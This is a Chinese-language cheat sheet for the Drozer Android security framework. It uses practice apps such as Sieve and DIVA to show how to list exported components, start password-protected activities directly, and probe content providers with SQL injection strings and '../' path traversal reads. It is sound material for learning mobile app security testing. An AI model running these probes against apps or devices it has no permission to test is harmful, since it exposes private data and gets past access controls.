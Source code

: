 ```yaml
---
title: Drozer Cheat Sheet
tags: [Android, Drozer]

---
```


# Drozer Cheat Sheet
## Basic Console
基本上最常用的command就是
```bash!
dz> run <drozer module> <optional object> # 啟動內建的module做到依稀操作
dz> help <drozer module> # 查看該module的說明以及參數設定
```

```bash!
dz> run app.package.list #列出所有已安裝的app package
dz> run app.package.list -f <key word> #列出特定的app package 
dz> run app.package.info -a <app package name> # 列出該app的基本訊息
dz> run app.package.manifest <app package name e.g. jakhar.aseem.diva> # 查看AndroidManifest.xml的資訊
dz> run app.package.attacksurface <app package name e.g. com.mwr.example.sieve> # 查看該app有什麼攻擊面
Attack Surface:
    3 activities exported # 也許可以啟動一個activity並且bypass某種應該阻止我啟動他的權限
    0 broadcast receivers exported
    2 content providers exported # 也許可以fetch private data或是利用某些漏洞 e.g. sqli or path traversal
    2 services exported
        is debuggable
```
接著根據得到的資訊看要用以下哪一種的攻擊模式
### activities exported
如果確定該app的AndroidManifest.xml有設定==android:export="true"==，就代表有機會bypass他的權限，根據[^csdn-androidmanifest-xml]這個地方的風險如下:
> android:exported
> 這個屬性用於指示該服務是否能夠被其他應用程序組件call或跟它interact。如果設置為true，則callable或interactable，否則不能。設置為false時，只有同一個應用程序的組件或帶有相同用戶ID的應用程序才能啟動或綁定該服務。
1. 列出export activities有哪些
    ```bash!
    dz> run app.activity.info -a <app package name>
    ```
2. 啟動activity
    ```bash!
    dz> run app.activity.start --component <app package name> <activity name fetched by above command>
    ```
    此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
    ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)

### services exported
和上面的問題差不多，只是差在被export的是services
1. 列出export services有哪些
    ```bash!
    dz> run app.service.info -a <app package nam>
    ```
2. 與該services互動
    這邊就不是像上一個activity一樣是啟動，而是要和他互動，因為service本來就是一個運行在背景的服務，他沒有畫面，無法和一般使用者互動，會需要的module如下
    ```
    app.service.send            Send a Message to a service, and display the reply
    app.service.start           Start Service
    app.service.stop            Stop Service
    ```
    如果去看`app.service.send`該如何使用，可以直接看範例就好，簡單來說我們可以丟給service一連串東西，就看逆向之後該service怎麼寫，如果參數不夠，可以用`--extra`去包後面的參數
    ```bash
        dz> run app.service.send com.example.srv com.example.srv.Service --msg 1 2 3 --extra float value 0.1324 --extra string test value
        Got a reply from com.example.srv/com.example.srv.Service:
          what: 1
          arg1: 2
          arg2: 3
        Data:
          value (float) : 0.1324
          test (string) : value
    ```
### broadcast receivers exported
根據[^pixnet-android-broadcast]的說明，broadcast屬於process之間的通訊，根據教學:
> 發現這些廣播接收器後，您應該檢查它們的代碼。特別注意**onReceive**函數，因為它將處理接收到的消息。

1. 檢測broadcast receiver
    ```bash
    dz> run app.broadcast.info # 檢測所有broadcast receiver
    dz> run app.broadcast.info -a <app package name> # 檢查特定app內的broadcast receiver
    ```
2. 和前面的exported service一樣，我們要和他們互動，但至於要傳送什麼也是要透過逆向來後來判斷
    ```bash
    app.broadcast.info          Get information about broadcast receivers
    app.broadcast.send          Send broadcast using an intent
    app.broadcast.sniff         Register a broadcast receiver that can sniff particular intents
    ```
    根據help的提示如下，可以知道該如何使用send→Sends an intent to broadcast receivers.
    ```bash
    dz> run app.broadcast.send --action <action name fetch by AndroidManifest.xml> --component <path to the function name> <function name>
    ```
    ```bash
    Examples:
    Attempt to send the BOOT_COMPLETED broadcast message:
        dz> run app.broadcast.send --action android.intent.action.BOOT_COMPLETED
        java.lang.SecurityException: Permission Denial: not allowed to send broadcast
    android.intent.action.BOOT_COMPLETED from pid=955, uid=10044
    ```
### content providers exported
1. 檢查Content Provider的exported狀況
    ```bash
    dz> run app.provider.info -a <app package name>
    
    # Drozer可以猜測並嘗試多個URI，這樣我們才知道確切的URI長怎樣
    dz> run scanner.provider.finduris -a <app package name>
    ```
2. 利用逆向判斷他是基於database還是基於file system的Content Provider
    * 基於DataBase
        ```bash
        #1. 查詢內容
        dz> run app.provider.query <URI> [--projection [columns ...]] [--selection conditions] [--selection-args [arg ...]] [--order by_column] [--vertical]
        
        #2. 插入內容
        dz> run app.provider.insert <URI> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #3. 更新內容
        #總而言之就是要選擇更新的地方，和要更新的內容為何
        #selection參數有點像是一般常見的"WHERE <conditions>"
        dz> run app.provider.update <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #4. 刪除內容
        #幾乎和前面一樣，也就是要指定刪除的位置
        dz> run app.provider.delete <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> 
        
        #5. SQLi
        #這邊是利用query來達到sqli，利用--selection和--projection這兩個參數，
        #projection這個參數，原文的解釋: 
        #the columns to SELECT from the database, as in "SELECT <projection> FROM ..."
        dz> run app.provider.query <URI> --selection "'"
        dz> run app.provider.query <URI> --projection "*
        
        #6. Drozer自動發現SQLi
        dz> run scanner.provider.injection -a <app package name>
        dz> run scanner.provider.sqltables -a <app package name>
        ```
    * 基於File System
        ```bash
        #1. 讀取文件
        dz> run app.provider.read <URI+path>
        
        #2. Path Traversal
        dz> run app.provider.read <URI+../../../../+path>
        
        #3. Drozer自動發現Path Traversal
        dz> run scanner.provider.traversal -a <app package name>
        
        #4. Download File to Local
        run app.provider.download <URI+path> hosts
        ```
### is debuggable
可以直接用drozer找，或者是直接看AndroidManifest.xml中有無提到==debuggable="true"==
```bash
# 找到所有debuggable的app
dz> run app.package.debuggable
```